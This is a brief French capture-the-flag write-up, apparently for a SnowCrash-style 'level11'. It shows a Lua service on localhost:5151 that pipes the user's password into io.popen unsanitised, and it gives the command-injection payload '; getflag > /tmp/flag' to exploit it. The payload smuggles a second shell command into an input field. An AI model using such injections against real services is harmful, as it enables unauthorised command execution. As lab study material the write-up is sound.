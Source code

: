 lancer la commande

nc localhost 5151

on nous demande un pwd

on vois dans level11.lua que popen est use

prog = io.popen("echo "..pass.." | sha1sum", "r")

le pwd est envoyer dans la variable pass

on abuse donc de celui comme suit:


; getflag > /tmp/flag
